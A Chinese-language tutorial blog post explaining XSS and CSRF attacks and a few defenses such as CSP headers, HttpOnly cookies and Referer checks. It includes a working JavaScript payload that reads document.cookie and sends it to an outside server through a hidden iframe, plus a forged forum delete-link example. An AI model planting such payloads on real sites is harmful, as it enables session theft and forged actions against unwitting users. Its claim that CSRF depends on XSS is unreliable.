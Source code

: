 xss--跨站脚本攻击

通过客户端脚本语言（最常见如：JavaScript）
在一个论坛发帖中发布一段恶意的JavaScript代码就是脚本注入，如果这个代码内容有请求外部服务器，那么就叫做XSS！

csrf也叫xsrf ---跨站请求伪造

又称XSRF，冒充用户发起请求（在用户不知情的情况下）,完成一些违背用户意愿的请求（如恶意发帖，删帖，改密码，发邮件等）

通常来说CSRF是由XSS实现的，所以CSRF时常也被称为XSRF[用XSS的方式实现伪造请求]（但实现的方式绝不止一种，还可以直接通过命令行模式（命令行敲命令来发起请求）直接伪造请求[只要通过合法验证即可]）。
XSS更偏向于代码实现（即写一段拥有跨站请求功能的JavaScript脚本注入到一条帖子里，然后有用户访问了这个帖子，这就算是中了XSS攻击了），CSRF更偏向于一个攻击结果，只要发起了冒牌请求那么就算是CSRF了。

场景：我在一条帖子里面写下了如下代码，发了出去，然后陆陆续续有很多可爱（wu / zhi） 的用户访问到这个帖子，然后用户接下来的所有操作都由我这串代码掌控了（各种姿势混着玩~）

如下：

```
while(true){
    alert('你关不掉我');
}
```

这个就是最原始的脚本注入了。
用户进来就麻烦了，一直弹窗一直弹窗。

那么XSS（跨站脚本）就是照瓢画葫了，用JavaScript写一个请求跨站的脚本就是XSS了，如下：

```
// 用 <script type="text/javascript"></script> 包起来放在评论中
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```

此段代码携带着cookie信息传输给了 **[http://192.168.123.123/myxss/...](http://192.168.123.123/myxss//strong) 这段服务器，然后服务器的代码就可以接收到了用户的隐私消息，继而继续做其他的业务处理（myxss/index.php 中写一些可怕的代码，如把用户信息存进自己的数据库）。**

*有没感觉到背后一寒*

看到这里感觉到危险了吧（想想初学程序时我们的站点完全没有这个意识，活生生的是在裸奔），=
既然此段脚本注入能携带着用户信息到收集服务器，那么再研究研究，他自然能发邮件？发帖？一系列业务逻辑？ ~~当然可以！。

这里tips一下：上面的代码仅仅是XSS，并没有发生CSRF，因为192.168.123.123/myxss/index.php 仅仅是把用户信息存起来了而已，他并没有“伪造”用户发起一些请求，所以他只算是XSS攻击而不算是CSRF攻击，如果192.168.123.123/myxss/index.php 写的代码是 将当前用户的昵称改为“我是大笨猪”，那么就算是CSRF攻击了，因为这段代码伪造用户发出了请求（但是用户却不自知）。

那么下面我介绍一下最最简单的CSRF攻击（没有用到XSS的哦）：
一个论坛，经过我的多次抓包分析（着重分析请求返回头，请求返回体）了解到这个论坛的删帖操作是触发 csdnblog.com/bbs/delete_article.php?id=“X" 那么，我只需要在论坛中发一帖，包含一链接：www.csdnblog.com/bbs/delete_article.php?id=“X" ，只要有用户点击了这个链接，那么ID为X的这一篇文章就被删掉了，而且是用户完全不知情的情况（敲黑板状：此处我可没有写XSS脚本哦，我纯粹是发一个url地址出来而已，既然删除操作可以伪造，那么只要我细细分析，其他操作（发帖，改名字，发私信，只要是这个论坛具有的功能）我都可以伪造咯！

XSS与CSRF讲完了，回头我会讲下如何防范XSS与CSRF。



如何防止xss和csrf攻击

CSRF依赖于XSS，防住XSS基本也就防住了CSRF让我们明确我们的目的，其实就是不让用户踏入XSS的坑，那我们有两个方法防止用户入坑，一个是对外部输入进行彻彻底底的敏感字符过滤，一个是在显示的时候做一些特殊处理不让敏感代码顺利执行。

```
其它的通用的补充性防御手段

1.在输出html时，加上Content Security Policy的Http Header
（作用：可以防止页面被XSS攻击时，嵌入第三方的脚本文件等）
（缺陷：IE或低版本的浏览器可能不支持）
2.在设置Cookie时，加上HttpOnly参数
（作用：可以防止页面被XSS攻击时，Cookie信息被盗取，可兼容至IE6）
（缺陷：网站本身的JS代码也无法操作Cookie，而且作用有限，只能保证Cookie的安全）
3.在开发API时，检验请求的Referer参数
（作用：可以在一定程度上防止CSRF攻击）
（缺陷：IE或低版本的浏览器中，Referer参数可以被伪造）
```